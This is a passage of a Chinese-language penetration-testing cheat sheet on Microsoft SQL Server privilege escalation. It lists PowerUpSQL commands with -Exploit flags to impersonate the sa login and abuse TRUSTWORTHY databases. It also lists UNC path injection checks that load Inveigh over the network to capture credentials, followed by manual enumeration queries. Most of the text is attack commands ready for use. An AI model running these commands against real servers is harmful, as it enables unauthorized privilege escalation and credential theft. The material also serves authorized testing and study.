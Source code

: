   ```sql
  SQL> select is_member('db_owner');
  SQL> execute as user = 'dbo'
  SQL> SELECT is_srvrolemember('sysadmin')
  ```

```ps1
Invoke-SQLAuditPrivImpersonateLogin -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Exploit -Verbose

# 冒充sa账户
powerpick Get-SQLQuery -Instance "<DBSERVERNAME\DBInstance>" -Query "EXECUTE AS LOGIN = 'sa'; SELECT IS_SRVROLEMEMBER(''sysadmin'')" -Verbose -Debug
```

## 查找被配置为可信任的数据库

```sql
Invoke-SQLAuditPrivTrustworthy -Instance "<DBSERVERNAME\DBInstance>" -Exploit -Verbose 

SELECT name as database_name, SUSER_NAME(owner_sid) AS database_owner, is_trustworthy_on AS TRUSTWORTHY from sys.databases
```

> 以下审计检查通过反射运行Web请求以加载Inveigh。请注意环境和连接出站的能力。

```ps1
Invoke-SQLAuditPrivXpDirtree
Invoke-SQLUncPathInjection
Invoke-SQLAuditPrivXpFileexist
```

## 手动SQL Server查询

### 查询当前用户并确定用户是否为sysadmin

```sql
select suser_sname()
Select system_user
select is_srvrolemember('sysadmin')
```

### 当前角色

```sql
Select user
```

### 当前数据库

```sql
select db_name()
```

### 列出所有表
